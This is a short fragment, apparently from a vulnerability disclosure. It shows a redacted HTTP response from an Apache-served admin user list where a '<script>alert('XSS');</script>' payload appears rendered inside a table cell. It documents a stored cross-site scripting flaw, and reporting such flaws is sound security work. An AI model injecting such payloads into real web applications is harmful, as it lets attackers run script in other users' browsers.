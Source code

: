 Response:
```
HTTP/1.1 200 OK
Date: Mon, 21 Oct 2019 08:45:17 GMT
Server: Apache
Content-Type: text/html;charset=utf-8
Vary: Accept-Encoding
Content-Length: 10957
Connection: close

***TRUNCATED***
            <img src="images/icon-admin.png" width="16" height="16" alt=""><strong>XXXXXX</strong>
            
              </a>
            
          </td>
          <td class="left soft_wrap">
            Marin
          </td>
          <td class="left soft_wrap">
              XXX - XXXXXXXXX
          </td>
          <td class="number wrap">
              <script>alert('XSS');</script>
          </td>
          
            <td style="text-align:center;">
              <img src="images/icon-check.png" alt=""/>
***TRUNCATED***
```

![](Zoom-XSS(2).png)
